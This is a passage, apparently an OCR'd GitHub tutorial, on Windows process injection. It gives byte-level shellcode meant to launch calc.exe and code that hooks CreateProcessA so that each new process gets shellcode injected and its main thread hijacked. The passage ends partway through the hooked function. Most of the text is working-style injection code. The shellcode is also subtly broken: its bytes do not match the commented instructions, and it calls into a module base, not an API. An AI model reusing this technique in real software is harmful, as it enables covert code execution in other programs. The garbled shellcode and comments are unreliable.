 #### 1. Shellcode to Launch `calc.exe`

The shellcode is responsible for launching `calc.exe`. It will be injected into the target process's memory, and we hijack the main thread to execute this shellcode.

```c
unsigned char calcPayload[] =
    "\x31\xd2"                          // xor edx, edx
    "\x52"                              // push edx
    "\x68\x63\x61\x6c\x63"              // push 'calc'
    "\x89\xe6"                          // mov esi, esp
    "\x52"                              // push edx
    "\x56"                              // push esi
    "\x64\x8b\x72\x30"                  // mov esi, fs:[edx + 30h]
    "\x8b\x76\x0c"                      // mov esi, [esi + 0Ch]
    "\x8b\x76\x1c"                      // mov esi, [esi + 1Ch]
    "\x8b\x6e\x08"                      // mov ebp, [esi + 8]
    "\x89\xf1"                          // mov ecx, esi
    "\x56"                              // push esi
    "\x56"                              // push esi
    "\x51"                              // push ecx
    "\xff\xd5";                         // call [ebp + 24h] // Start the process calc.exe
```

#### 2. Hooking `CreateProcessA`

We declare a typedef for the `CreateProcessA` function signature and store the original `CreateProcessA` function in `OriginalCreateProcessA`. This allows us to call the original `CreateProcessA` after hooking it.

```c
typedef BOOL(WINAPI* CreateProcessA_t)(
    LPCSTR, LPSTR, LPSECURITY_ATTRIBUTES, LPSECURITY_ATTRIBUTES,
    BOOL, DWORD, LPVOID, LPCSTR, LPSTARTUPINFOA, LPPROCESS_INFORMATION);
CreateProcessA_t OriginalCreateProcessA = CreateProcessA;
```

#### 3. The Hooked `CreateProcessA` Function

This function hooks `CreateProcessA`. After the process is created, it injects shellcode into the target process's memory and modifies the main thread's context to point to the shellcode.

```c
BOOL WINAPI HookedCreateProcessA(
    LPCSTR lpApplicationName,
    LPSTR lpCommandLine,
    LPSECURITY_ATTRIBUTES lpProcessAttributes,
    LPSECURITY_ATTRIBUTES lpThreadAttributes,
    BOOL bInheritHandles,
    DWORD dwCreationFlags,
    LPVOID lpEnvironment,
    LPCSTR lpCurrentDirectory,
    LPSTARTUPINFOA lpStartupInfo,
    LPPROCESS_INFORMATION lpProcessInformation)
{
    // Call the original CreateProcessA
    BOOL result = OriginalCreateProcessA(lpApplicationName, lpCommandLine, lpProcessAttributes,
                                         lpThreadAttributes, bInheritHandles, dwCreationFlags,
                                         lpEnvironment, lpCurrentDirectory, lpStartupInfo, lpProcessInformation);
```
